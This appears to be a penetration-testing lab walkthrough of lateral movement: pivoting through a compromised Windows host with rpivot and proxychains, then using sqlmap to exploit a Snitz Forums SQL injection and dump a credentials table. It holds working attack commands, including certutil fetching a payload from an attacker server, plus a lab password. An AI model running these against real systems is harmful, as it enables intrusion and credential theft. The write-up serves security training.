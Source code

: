 # Lateral Movement 1 - Forum & DB

- [Lateral Movement 1 - Forum & DB](#lateral-movement-1---forum--db)
  - [Neighbor discovery](#neighbor-discovery)
  - [Proxy using rpivot](#proxy-using-rpivot)
  - [Enumeration](#enumeration)
  - [10.1.3.1 - Gitlab / Jenkins](#10131---gitlab--jenkins)
  - [10.1.3.2 - Snitz Forums](#10132---snitz-forums)

----

## Neighbor discovery

On the Scientist machine, do a `arp` to discover the neighbour:

```
arp -a
```

![picture 28](images/6f3745a7e9de4b5df226dab4540ce0524b58902faa94351e73d9b9133e427b5a.png)  

<br/>

## Proxy using rpivot

On the attacker machine, first clone the repo:

```
git clone https://github.com/klsecservices/rpivot.git
```

Also download the rpivot Windows client executable:

```
cd /usr/share/rpivot/ && wget https://github.com/klsecservices/rpivot/releases/download/v1.0/client.exe
```

![picture 23](images/69e0242b39fb852b687d019571ff77e87b48682fc608be5661dfc5783cd8abcc.png)  

<br/>

Serve `client.exe` using python http server and download it from the Scientist machine:

```
# Attacker
python3 -m http.server 80
```

```
# Scientist machine
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/client.exe .\client.exe
```

![picture 24](images/9cfcd47851566013075f1e860e8ebbac5825adcfee02864665e22016ba763e49.png)  


<br/>

On the attacker machine, launch a rpivot server:

```
python server.py --server-port 8080 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9051
```

Then on the Scientist machine, connect to the rpivot server:

```
client.exe --server-ip 192.168.100.11 --server-port 8080
```

![picture 25](images/7e53d48f497bcadb6162d0fa995054cc4027390e8dad4b9d52913e50588280fe.png)  

![picture 26](images/b6f3223437bec6aeca2571b4d4342092165aa8c602c00302bef65da249ee9eed.png)  

<br/>

Modify `/etc/proxychains.conf` to let it use SOCK4 proxy on port 9051:

![picture 27](images/9bbb14e76912c64a077fbfd3fd4a186cb211f6378387c6ec730ffa8f286d54e8.png)  

<br/>

## Enumeration

Use `proxychains` with `nmap` to enumerate the hosts discovered by `arp`:

```
proxychains nmap -Pn -sT 10.1.3.1-2 -p 22,139,80 --min-rate 10000
```

![picture 29](images/2092306e9323966b62b7ac4d2ad1c64b52854be08e9a1aba033c1036becfbb39.png)  

<br/>

## 10.1.3.1 - Gitlab / Jenkins

Refer to Path 1

<br/>

## 10.1.3.2 - Snitz Forums

Use firefox with foxyproxy pointing to SOCK4 proxy on tcp/9051:

![picture 30](images/7ebb48e1600dc3680de1b4655b5ea2004074b912773850b99196061f6e3ef86b.png)  

Use the obtained IIS credential:
`iisadmin` \ `Head!!S%$#@!`

![picture 31](images/4b0f1b05208ffcd5d1b5149b0b5ca5aa72bc4359deb8dab8f2a48be6d95692d1.png)  

![picture 32](images/d319517e43ca033bb25895c312302828afed15dbb337df1d1af0b5612c9b21be.png)  

* Web App Version:  Snitz Forums 2000 Version 3.1 SR4

<br/>

This particular version is known to have an SQL injection exploit:

- https://www.exploit-db.com/exploits/3321

<br/>

With the valid header, use `sqlmap` to exploit. First list the available databases:

![picture 33](images/ac442fee8d3237c60b03520385cccb7d3ffc8eb00fed062bb4c63df58a48a218.png)  


```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U --dbs
```

![picture 34](images/39c7b6a8694264f90257b215c952a13a6600b00f4de9f64567e683f15d811b55.png)  

<br/>

Check the tables in the DB `Sensitive-DB`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB --tables
```

![picture 35](images/256780fc91bceab6687128a4577a4185ffa818d5bd9508aeda0f5fe1e1ef8a71.png)  

<br/>

Check the table `Creds`:

```
proxychains sqlmap -u "http://10.1.3.2/pop_profile.asp?mode=display&id=1" --headers="Authorization: Basic aWlzYWRtaW46SGVhZCEhUyUkI0Ah\nCookie: ASPSESSIONIDCSQSSSRC=JOMBGJJBAPLHBCAKFGBCBFJO" -p id -T U -D Sensitive-DB -T Creds --dump
```
